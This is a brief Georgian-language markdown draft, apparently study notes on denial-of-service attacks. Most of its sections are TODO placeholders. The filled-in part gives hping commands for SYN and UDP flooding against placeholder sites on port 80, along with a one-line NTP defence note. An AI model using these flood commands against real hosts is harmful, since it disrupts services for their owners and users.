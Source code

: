 # თეორია

TODO

# პრაქტიკა

## პორტი 7 (Echo)

TODO

## პორტი 9 (Discard)

TODO

## პორტი 13 (Daytime)

TODO

## პორტი 17 (Quote of the Day)

TODO

## პორტი 19 (Character Generator)

TODO

## NTP

ამ პროტოკოლის სერვისის წინააღმდეგ DoS ატაკა არის შესაძლო.

დაცვა: ფაირვოლი და/ან როუტერი


## Syn Flood

```
hping -i u1 -S -p 80 www.target.com
```

ან

```
hping2 site.com -p 80 -i u30000 -S
```

## UDP Flood

```
hping3 site.com -p 80 -i u30000 --udp
```
